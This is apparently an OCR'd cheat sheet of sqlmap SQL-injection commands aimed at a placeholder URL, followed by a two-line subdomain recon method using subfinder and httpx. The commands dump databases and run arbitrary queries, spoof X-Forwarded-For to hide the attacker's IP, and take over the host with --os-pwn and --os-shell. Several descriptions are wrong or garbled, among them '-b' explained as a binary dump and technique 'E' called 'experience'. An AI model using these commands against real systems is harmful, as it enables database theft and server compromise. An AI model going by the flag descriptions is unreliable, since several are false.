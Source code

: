 <br><br>
Login with the 'martin' username, retrieve the content of the database specified in the URL given in the command and then to dump the content of all the tables into binary files.

    sqlmap -u http://www.example.com/db.php?id=1 --os-user='martin' --dump -b 

---
<br><br>
Analyze the html forms present in the website identified by the specified URL and then to follow redirects for 3 levels, using the experience techniques for exploiting each form.   
    
    sqlmap -u http://www.example.com/db.php?id=1 --forms --follow-redirect --level=3 --technique=E  

---
<br><br>
Perform an Operating System takeover, allowing it to read and write files on the remote system.

    sqlmap -u http://www.example.com/db.php?id=1 --os-pwn 

---
<br><br>
Retrieve the database schema of the database specified in the URL given in the command, using the X-Forwarded-For header to mask the client's IP.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --schema --header="X-Forwarded-For: 192.168.0.1" 

---
<br><br>
Query the database specified in the URL given in the command, executing the given SELECT statement, and then dumping the result of the query into a file.

    sqlmap -u http://www.example.com/db.php?id=1 --dbms=MYSQL --query "SELECT user FROM table WHERE id=1" --dump 

---
<br><br>
Identify the web application firewall present in the website specified in the URL given in the command, and then download the default page the web application serves. 

    sqlmap -u http://www.example.com/db.php?id=1 --identify-waf --dbms=MYSQL --download-page 

---
<br><br>
Establish an interactive shell between the remote client and the web application, allowing the remote user to execute OS commands on the remote target.  

    sqlmap -u http://www.example.com/db.php?id=1 --os-shell 

---

### Method

    subfinder -d target | tee -a domains

    cat domain | httpx | tee -a text.txt
